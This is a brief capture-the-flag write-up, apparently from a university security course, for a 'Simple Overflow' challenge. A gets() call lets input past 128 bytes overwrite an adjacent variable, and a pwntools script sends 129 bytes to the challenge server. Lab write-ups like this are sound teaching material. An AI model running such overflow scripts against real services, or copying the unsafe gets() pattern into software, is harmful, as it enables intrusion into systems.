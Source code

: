 # Challenge `Simple Overflow` writeup

- Vulnerability:
  - Buffer Overflow
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port `23151`
- Impact:
  - Allows attacker to alter local variable

## Steps to reproduce

1. The `buffer` and `test` variables are reserved consecutively
2. By writing more that 128 characters into `buffer`, the `test` variable is affected, after the `gets` function.

The code used was:

```py
from pwn import *

session = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23151", timeout=1000)
session.recvuntil('.')
session.send(b'1'*129)
print(session.recvall())
```